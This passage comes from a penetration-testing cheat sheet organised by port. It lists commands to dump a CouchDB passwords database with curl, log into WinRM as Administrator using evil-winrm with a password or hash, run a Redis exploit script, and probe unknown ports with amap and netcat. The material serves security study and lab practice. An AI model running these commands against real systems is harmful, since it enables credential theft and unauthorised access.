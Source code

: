 ```bash

# Dump passwords
curl -X GET http://user:passwords@localhost:5984/passwords
```

## Port 5985 - WinRM

```bash
# https://github.com/Hackplayers/evil-winrm
gem install evil-winrm
evil-winrm -i 10.11.1.111 -u Administrator -p 'password1'
evil-winrm -i 10.11.1.111 -u Administrator -H 'hash-pass' -s /scripts/folder
```

## Port 6379 - Redis

```bash
# https://github.com/Avinash-acid/Redis-Server-Exploit
python redis.py 10.10.10.160 redis
```

## Port 8172 - MsDeploy

```bash
# Microsoft IIS Deploy port
IP:8172/msdeploy.axd
```

## Port 5601/9200

[ELK](webservices/elk.md)

## Port 27017-19/27080/28017 - MongoDB

[MongoDB](webservices/nosql-and-and-mongodb.md)

## Unknown ports

* `amap -d 10.11.1.111 8000`
* netcat: makes connections to ports. Can echo strings or give shells: `nc -nv 10.11.1.111 110`
* sfuzz: can connect to ports, udp or tcp, refrain from closing a connection, using basic HTTP configurations

## RCE ports

![](<../.gitbook/assets/image (1).png>)
